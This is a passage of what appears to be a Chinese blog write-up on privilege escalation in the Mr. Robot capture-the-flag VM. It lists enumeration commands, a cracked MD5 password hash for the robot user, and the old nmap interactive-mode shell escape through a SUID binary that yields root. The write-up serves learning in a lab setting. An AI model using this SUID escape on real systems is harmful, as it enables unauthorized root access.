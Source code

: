       .post img {
        border: 1px solid #D9D9D9;
      }

      .post a {
        color: #28A1C5;
      }
    </style>
  </head>
  <body>
    <div class="container">
      <div class="post">
        <h1 class="title">mr.robot（SUID）提权</h1>
        <div class="show-content">
          <p>前景提要：上次通过爆破后台，修改404.php获得一个webshell。现在学习提权。</p><p>id、whoami、hostname</p><blockquote><p>信息：daemon用户，uid=1说明是系统用户，主机名linux</p></blockquote><p>cd home/robot</p><blockquote>
<p>信息：获得另一个key（2/3），和passwd文件，文件内容：</p>
<p>robot:c3fcd3d76192e4007dfb496cca67e13b</p>
</blockquote><p>MD5解码：abcdefghijklmnopqrstuvwxyz</p><p>(⊙﹏⊙)这个明显是偏CTF，而不是模拟真实渗透环境啊。</p><p>su robot/abcdefghijklmnopqrstuvwxyz</p><hr><p>寻找有<a href="https://www.jianshu.com/p/45e60bed314e" target="_blank">SUID权限</a>的文件。</p><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-e3705143f79975d2.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p>于是通过nmap提权。</p><p>查看nmap版本：/usr/local/bin/nmap --version   或者 nmap -V</p><p>老版本的nmap(2.02-5.21)有一个交互模式，使得用户可以执行shell。</p><blockquote>
<p>nmap --interactive</p>
<p>!sh</p>
<p>pwd</p>
<p>cd root</p>
<p>ls</p>
</blockquote><p>获得第三个key.</p>
        </div>
      </div>
    </div>
  </body>
</html>
